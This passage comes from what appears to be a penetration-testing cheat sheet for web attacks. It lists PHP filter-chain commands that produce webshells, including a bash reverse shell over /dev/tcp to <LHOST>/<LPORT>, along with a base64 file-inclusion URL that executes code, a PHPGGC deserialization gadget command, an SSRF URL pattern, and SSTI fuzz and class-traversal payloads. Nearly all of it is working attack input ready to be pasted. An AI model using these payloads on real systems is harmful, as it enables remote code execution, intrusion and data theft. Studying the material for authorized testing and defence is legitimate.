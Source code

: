 #### PHP Filter Chain Generator

> https://github.com/synacktiv/php_filter_chain_generator

```c
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
python3 php_filter_chain_generator.py --chain "<?php echo shell_exec(id); ?>"
python3 php_filter_chain_generator.py --chain """<?php echo shell_exec(id); ?>"""
python3 php_filter_chain_generator.py --chain """"<?php exec(""/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"");?>""""
python3 php_filter_chain_generator.py --chain """"<?php exec(""/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'"");?>""""
```

```c
http://<RHOST>/?page=php://filter/convert.base64-decode/resource=PD9waHAgZWNobyBzaGVsbF9leGVjKGlkKTsgPz4
```

```c
python3 php_filter_chain_generator.py --chain '<?= exec($_GET[0]); ?>'
[+] The following gadget chain will generate the following code : <?= exec($_GET[0]); ?> (base64 value: PD89IGV4ZWMoJF9HRVRbMF0pOyA/Pg)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|<--- SNIP --->|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp&0=<COMMAND>
```

#### PHP Generic Gadget Chains (PHPGGC)

```c
phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/<FILE>.txt /PATH/TO/FILE/<FILE>.txt
```

#### Server-Side Request Forgery (SSRF)

```c
https://<RHOST>/item/2?server=server.<RHOST>/file?id=9&x=
```

#### Server-Side Template Injection (SSTI)

##### Fuzz String

> https://cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti

```c
${{<%[%'"}}%\.
```

##### Magic Payload

> https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

```c
{{ ‘’.__class__.__mro__[1].__subclasses__() }}
```

#### Upload Vulnerabilities
